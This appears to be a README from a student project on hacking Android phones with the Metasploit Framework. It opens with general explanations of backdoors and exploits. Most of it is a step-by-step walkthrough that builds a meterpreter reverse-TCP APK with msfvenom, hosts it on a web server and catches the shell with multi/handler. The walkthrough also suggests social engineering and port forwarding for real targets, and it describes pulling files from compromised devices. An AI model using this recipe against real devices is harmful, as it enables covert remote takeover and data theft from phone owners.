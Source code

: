 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output


2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.

![image](https://user-images.githubusercontent.com/81562207/229279200-5c74b081-2753-429c-9b2a-33892ecd2960.png)
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.

![image](https://user-images.githubusercontent.com/81562207/229279271-af872994-d2c1-42e3-9a75-51ab02caf6d2.png)

Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

![image](https://user-images.githubusercontent.com/81562207/229279465-8336c901-4c06-47ff-a8a7-7105a96e3a52.png)


3.	Post Exploitation
Type “background” and then “sessions” to list down all the sessions from where you can see all the IPs connected to the machine. 

![image](https://user-images.githubusercontent.com/81562207/229279529-ca376327-0434-43b2-b1a4-19c526f87584.png)
 
You can interact with any session by typing sessions -i [session ID]. After entering the session, type “help” to list down all the commands we can put forward in this session. You can see some file system commands that are helpful when you’re trying to go after some sensitive information or data. By using these, you can easily download or upload any file or information.

![image](https://user-images.githubusercontent.com/81562207/229279569-43fff339-2ee2-4fd5-85dd-f54731ad92d6.png)


